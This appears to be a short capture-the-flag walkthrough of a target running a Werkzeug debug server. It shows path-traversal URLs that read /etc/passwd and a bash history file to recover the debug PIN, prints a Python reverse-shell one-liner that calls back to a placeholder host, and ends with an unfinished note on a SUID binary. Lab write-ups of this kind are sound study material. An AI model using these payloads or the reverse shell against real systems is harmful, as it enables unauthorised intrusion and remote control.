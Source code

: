 # Recon

## Ports
````
22 SSH
890 HTTP
5000 Werkzeug _VULNERABLE_
````
## API

`http://<IP>:5000/api/v1/resources/books`

# Exploit

In API, the param "show" is vulnerable to path transversal

## PoC

`http://<IP>:5000/api/v1/resources/books?show=../../../etc/passwd`

## Payload

To get the key for Werkzeug console fin in bash history.
`http://<IP>:5000/api/v1/resources/books?show=.bash_history`

```bash
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=XXX-XXX-XXX
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

## Reverse in "/console"

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

# Privesc

In SID's home the executable `try-harder` has SUID bit.

## Exploit

Making the reverse we found that with the number is equal

`Study more to BOF....`

